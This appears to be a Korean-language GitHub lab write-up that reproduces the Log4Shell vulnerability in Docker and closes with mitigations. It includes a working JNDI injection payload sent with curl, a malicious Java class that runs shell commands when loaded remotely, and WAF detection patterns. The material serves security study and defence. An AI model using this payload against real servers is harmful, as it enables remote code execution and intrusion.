








# CVE-2021-44228: Apache Log4j2 JNDI RCE (Log4Shell)

**Contributors**

-   [손유진(@yujinson1231)](https://github.com/yujinson1231)


## 취약점 요약

| 항목 | 내용 |
|---|---|
| CVE ID | CVE-2021-44228 |
| 별칭 | Log4Shell |
| 대상 소프트웨어 | Apache Log4j2 (`log4j-core`) |
| 취약 버전 | 2.0-beta9 ~ 2.14.1 |
| 취약점 유형 | JNDI Injection → 원격 코드 실행(RCE) |
| 공격 방식 | 원격, 네트워크를 통해 문자열 하나만 로그로 남겨도 트리거됨 |

Log4j2는 로그 라이브러리로 로그 메시지를 출력하기 전에 `${...}` 형태의 Lookup 구문을 만나면 문자열을 단순히 출력하는 것이 아니라 해석하여 수행한다. 이 중 `${jndi:...}` 패턴은 실제로 JNDI(Java Naming and Directory Interface) API를 호출하여 LDAP/RMI/DNS 등 외부 서버에 질의하고, 그 응답에 따라 원격 서버에 있는 Java 클래스를 다운로드해 로드·실행할 수 있다. 애플리케이션이 사용자 입력(HTTP 헤더, User-Agent, 로그인 아이디 등 무엇이든)을 로그로 남기기만 하면, 별도의 파싱이나 처리 없이도 공격자가 임의 코드를 실행시킬 수 있다.


## 환경 구성

```
CVE-2021-44228/
├── docker-compose.yml        # 3개 서비스를 하나로 묶음
├── vulnerable-app/           # (1) 공격 대상 — log4j-core 2.14.1 사용
│   ├── Dockerfile
│   ├── pom.xml
│   └── src/main/java/com/example/VulnerableApp.java
├── ldap-server/               # (2) marshalsec 기반 JNDI 레퍼런스 서버
│   └── Dockerfile
├── http-server/               # (3) 악성 클래스 파일 호스팅
│   ├── Dockerfile
│   └── Exploit.java
└── poc.sh                     # 공격 트리거 스크립트
```

```
                 ① HTTP 요청 (악성 헤더)
attacker  ─────────────────────────────────►  victim (vulnerable-app)
                                                :8080, log4j-core 2.14.1
                                                     │
                                     ② JNDI lookup 수행 (log4j가 내부적으로 트리거)
                                                     ▼
                                              ldap-server (marshalsec)
                                                :1389
                                                     │
                                  ③ Reference 응답: "코드는 http-server에서 받아가"
                                                     ▼
                                              http-server (python http.server)
                                                :8000, Exploit.class 호스팅
                                                     │
                                  ④ victim JVM이 Exploit.class 다운로드 → 클래스 로드
                                                     ▼
                                     ⑤ static 블록 실행 → 컨테이너 내부 임의 코드 실행(RCE)
```


- **victim**: `com.sun.net.httpserver.HttpServer`로 만든 최소 HTTP 서버. `X-Api-Version` 요청 헤더 값을 그대로 log4j-core 2.14.1로 로깅한다.

- **ldap-server**: [marshalsec](https://github.com/mbechler/marshalsec)을 Dockerfile 안에서 소스 클론 후 Maven으로 직접 빌드. `LDAPRefServer`를 실행해 모든 LDAP 조회에 대해 `http-server:8000/Exploit.class`를 가리키는 `Reference` 객체를 응답한다.

- **http-server**: 공격에 사용할 `Exploit.class`를 같은 Dockerfile 안에서 `javac`로 컴파일한 뒤 `python3 -m http.server`로 서빙한다.

## 취약 조건

1. **log4j-core 버전이 2.0-beta9 ~ 2.14.1** 사이여야 한다. 이 범위에서는 로그 메시지에 대한 Lookup 치환(`${jndi:...}` 등)이 **기본적으로 활성화**되어 있다. (2.15.0부터 기본 비활성화, 2.17.1에서 JNDI 기능 자체가 사실상 제거됨)

  - 취약점은 신뢰할 수 없는 사용자 입력을 그대로 받아 취약한 버전의 Log4j가 해석하도록 넘기는 것에 있다.

2. **사용자 통제 가능한 값이 로그로 남아야 한다.** 본 PoC에서는 HTTP 요청 헤더(`X-Api-Version`)를 그대로 로깅하는 코드가 그 지점이다. 실무에서는 User-Agent, 로그인 ID, Referer, 심지어 예외 메시지 등 어디든 이 조건이 될 수 있다.
3. **JVM이 JNDI를 통한 원격 코드베이스 클래스 로딩(`trustURLCodebase`)을 허용해야** LDAP Reference를 통해 실제 `.class` 파일을 원격에서 받아 실행하는 "완전한" RCE 체인이 성립한다.
   - 이 옵션은 JDK 6u211 / 7u201 / **8u191** / 11.0.1 이상부터 기본값이 `false`로 바뀌었다.
   - **주의(재현 시 함정):** Docker Hub의 `openjdk:8u181-jdk`처럼 버전 번호상 패치 이전으로 보이는 이미지도, Debian 패키지 관리자가 이 보안 하드닝을 이미 백포트해둔 경우가 있어 기본값이 `false`로 잠겨 있을 수 있다. 실제로 본 환경에서도 이 현상이 확인되어, `vulnerable-app`의 실행 커맨드에 `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`를 명시적으로 지정해 2021년 당시의 실제 취약 조건을 재현했다 (`vulnerable-app/Dockerfile` 참고).
   
   - 참고: 이 JVM 옵션이 없어도(즉 remote codebase loading이 막혀 있어도) log4j 자체의 JNDI lookup은 여전히 수행되며, 로컬 JVM에 이미 존재하는 클래스를 이용한 우회 기법(Deserialization gadget 등)으로도 공격이 가능하다. CVE의 근본 원인은 어디까지나 **log4j의 무분별한 Lookup 치환**이며, 원격 클래스 로딩은 그 영향을 가장 극적으로 보여주는 시연 방식일 뿐이다.

## 재현 절차


1) 3개 컨테이너를 소스에서부터 빌드하고 기동

```bash
docker compose up -d --build
```


2) 기동 확인 (victim: 18080, ldap-server/http-server는 내부 네트워크 전용)

```bash
docker compose ps
```
> victim의 호스트 포트는 다른 서비스(예: 8080을 쓰는 다른 컨테이너)와 충돌하지 않도록 `18080`으로 매핑되어 있다 (`docker-compose.yml`).


 3) PoC 실행

```bash
chmod +x poc.sh
./poc.sh
# 또는 직접:
curl -H 'X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}' http://localhost:18080/
```


4) victim 컨테이너 내부에서 코드가 실행됐는지 확인

```bash
docker compose exec victim cat /tmp/pwned_by_log4shell.txt
```
인증 절차 없이, HTTP 헤더 하나만으로 victim 컨테이너 내부에서 임의 명령이 root 권한으로 실행되는 것을 확인했다.


## PoC 코드

**`poc.sh`** — 공격 트리거

```bash
#!/bin/sh
TARGET="${1:-http://localhost:18080/}"
PAYLOAD='${jndi:ldap://ldap-server:1389/Exploit}'

curl -s -H "X-Api-Version: ${PAYLOAD}" "$TARGET"
```


**`http-server/Exploit.java`** — victim JVM에 원격 로딩되어 실행되는 악성 클래스

```java
public class Exploit {
    static {
        try {
            String[] cmd = {
                "/bin/sh", "-c",
                "{ echo '=== CVE-2021-44228 RCE PoC ==='; id; whoami; hostname; date; } > /tmp/pwned_by_log4shell.txt"
            };
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```


`static` 초기화 블록은 JVM이 이 클래스를 **로드하는 시점**에 실행되므로, `ObjectFactory` 인터페이스 구현 여부와 무관하게 클래스 로딩만으로 코드 실행이 성립한다.


## 실행 결과

**공격 요청 및 victim 로그** (JNDI lookup이 실제로 수행됨):
```
$ ./poc.sh
[*] Sending payload to http://localhost:18080/
OK

log4shell-victim | 05:09:56.992 INFO  com.example.VulnerableApp - Received request, X-Api-Version: ${jndi:ldap://ldap-server:1389/Exploit}
```


**ldap-server 로그** (LDAP 질의를 가로채 Reference 응답):

```
docker compose logs ldap-server --tail 10
```


**http-server 로그** (victim JVM이 실제로 악성 클래스를 다운로드):

```
docker compose logs http-server --tail 10
```


**victim 컨테이너 내부 RCE 증거** (root 권한으로 명령 실행됨):



참고: 이후 victim 로그에는 `Exploit cannot be cast to javax.naming.spi.ObjectFactory`라는 `ClassCastException`이 이어지는데, 이는 `Exploit` 클래스가 `ObjectFactory`를 구현하지 않아 lookup 마무리 단계에서 발생하는 것으로, **이미 클래스 로딩 시점에 RCE는 완료된 뒤** 발생하는 정상적인 후속 현상이다.


## 대응 방안

1. **가장 확실한 방법 — 버전 업그레이드**
   - `log4j-core`를 **2.17.1 이상**(2.12.4 / 2.3.2 등 legacy 브랜치 패치 버전 포함)으로 업그레이드한다. 2.17.1부터는 JNDI 관련 기능이 근본적으로 재설계되어 이런 형태의 원격 코드 실행이 불가능하다.
     
2. **즉시 적용 가능한 완화책 (패치 전 임시 조치)**
   - JVM 옵션 `-Dlog4j2.formatMsgNoLookups=true` 추가 (2.10.0 이상에서 유효)
   - 환경변수 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` 설정
   - classpath에서 `org.apache.logging.log4j.core.lookup.JndiLookup` 클래스 자체를 제거:
     ```
     zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
     ```
     
3. **네트워크 계층 방어**
   - 애플리케이션 서버에서 LDAP(389/636), RMI 등 아웃바운드 연결을 방화벽/보안그룹으로 차단해 JNDI 콜백 자체를 원천 차단
   - WAF에서 `${jndi:`, `${${lower:j}ndi` 등 우회 인코딩 패턴 탐지·차단 (다만 인코딩 우회가 다양해 근본 대책은 아님)
     
4. **JVM 하드닝**
   - `com.sun.jndi.ldap.object.trustURLCodebase=false` (최신 JDK는 기본값이지만 명시적으로 강제)
   - 가능하면 최신 JDK로 업그레이드하여 JNDI 원격 코드베이스 로딩 자체를 차단
  
5. **런타임 모니터링**
   - 애플리케이션 프로세스에서 예상치 못한 자식 프로세스(`sh`, `bash`, `curl` 등) 실행이나 비정상적인 아웃바운드 LDAP/RMI 연결을 EDR/런타임 보안 도구로 탐지
